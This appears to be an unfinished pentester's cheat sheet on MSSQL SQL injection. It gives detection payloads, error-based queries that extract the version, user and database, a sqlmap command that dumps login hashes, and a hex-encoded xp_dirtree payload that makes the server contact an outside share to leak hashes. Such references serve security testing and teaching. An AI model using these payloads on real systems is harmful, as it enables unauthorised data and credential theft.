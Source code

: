 # Web Application - SQL Injection - MSSQL

Microsoft SQL Server is a relational database management system developed by
Microsoft.  
Microsoft markets a dozen different editions of Microsoft SQL Server with various functionalities and aims. A list of the versions is available : https://support.microsoft.com/en-us/help/321185/how-to-determine-the-version-edition-and-update-level-of-sql-server-an

MSSQL supports stacked queries.

### RECON

###### Injection locations

In a HTTP request there are a few common injection points :
 - URL parameters
 - POST parameters
 - Cookie names and values
 - Host header and any custom headers

While these are the most common, any content in an HTTP request can be
vulnerable to SQL injection.

###### Injection detection

Detecting vulnerable parameters is most easily done by triggering errors and
boolean logic within the application.  
Supplying malformed queries will trigger errors and sending valid queries with
various boolean logic statements may trigger different responses from the web
server.  
Time based payload can also be used to detect SQL injection in MSSQL.  

| Technique      | Query     |
|----------------|-----------|
| Error <br /> *A direct message can be returned or the page may act differently*    | x='<br/> x=" |
| Logic Testing <br /> *Page can react differently if true or false* | x=1 or 1=1 *-- true* <br /> x=1' or 1=1 *-- true* <br/> x=1" or 1=1 *-- true* <br/> x=1 or 1=2 *-- false*  <br/>... |
| Time Based <br /> A delay can be induced by the query execution | x=1 WAITFOR DELAY '0:0:5' -- Wait 5 seconds <br /> x=1; WAITFOR DELAY '0:0:5' -- Wait 5 seconds <br />  x=1 WAITFOR TIME '22:42' -- Wait until 22:42 <br /> ... |

###### Automated detection

The detection of vulnerable parameters can be automated, using the BurpSuite
Pro scanner for example.

### EXPLOIT

###### Encoding queries


###### Obfuscating queries

###### Disable logging mechanisms

###### Meta information

**Description**

```sql
-- Union

-- Error
1 AND 68 IN (SELECT (CAST(@@version AS NVARCHAR(4000))))

-- Boolean


-- Time
```
###### Users and privileges

###### Databases

###### Tables

###### Columns

###### Data

Get current user
1 AND 68 IN (SELECT (CAST(SYSTEM_USER AS NVARCHAR(4000))))

Get current db name
1 AND 3995 IN (SELECT (CAST(DB_NAME() AS NVARCHAR(4000))))

SQLMAP Get password hash
sqlmap -D master -T sys.sql_logins --dump

1;DECLARE @fktn VARCHAR(8000);SET @fktn=0x5c5c31302e31302e31342e3133305c666f6f616161;EXEC master..xp_dirtree @fktn--

### POST-EXPLOIT

###### Commands execution

###### File system access

###### Hash exfiltration

###### Others
